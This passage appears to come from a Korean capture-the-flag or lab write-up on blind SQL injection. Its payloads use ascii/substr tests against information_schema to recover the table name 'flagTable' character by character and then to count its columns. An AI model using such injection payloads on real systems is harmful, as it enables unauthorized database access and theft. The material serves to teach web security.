 ### 3.3. 이름 확인
#### 3.3.1. 1번째 table
* 예측한 table 이름이 맞나 확인해보겠다

---

1. **normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 1, 1)) = 102) #**
-> O  
-> 찾은 글자: fxxx xxxxx  
-> 예측한 글자: flagTable  
1. **normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 5, 1)) = 84) #**
-> O  
-> 찾은 글자: fxxx Txxxx  
-> 예측한 글자: flagTable  
1. **normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 3, 1)) = 97) #**
-> O  
-> 찾은 글자: fxax Txxxx  
-> 예측한 글자: flagTable  
1. **normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 6, 1)) = 97) #**
-> O  
-> 찾은 글자: fxax Taxxx  
-> 예측한 글자: flagTable  
1. **normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 9, 1)) = 101) #**
-> O  
-> 찾은 글자: fxax Taxxe  
-> 예측한 글자: flagTable  
1. **normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 2, 1)) = 108) #**
-> O  
-> 찾은 글자: flax Taxxe  
-> 예측한 글자: flagTable  
1. **normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 8, 1)) = 108) #**
-> O  
-> 찾은 글자: flax Taxle  
-> 예측한 글자: flagTable  

## 4. COLUMN
### 4.1. 개수 확인
1. **normaltic' and ((select count(column_name) from information_schema.columns where table_name = 'flagTable') < 5) #**
-> O  
1. **normaltic' and ((select count(column_name) from information_schema.columns where table_name = 'flagTable') < 3) #**
-> O  
1. **normaltic' and ((select count(column_name) from information_schema.columns where table_name = 'flagTable') < 2) #**
-> X  
1. **normaltic' and ((select count(column_name) from information_schema.columns where table_name = 'flagTable') = 2) #**
-> O  
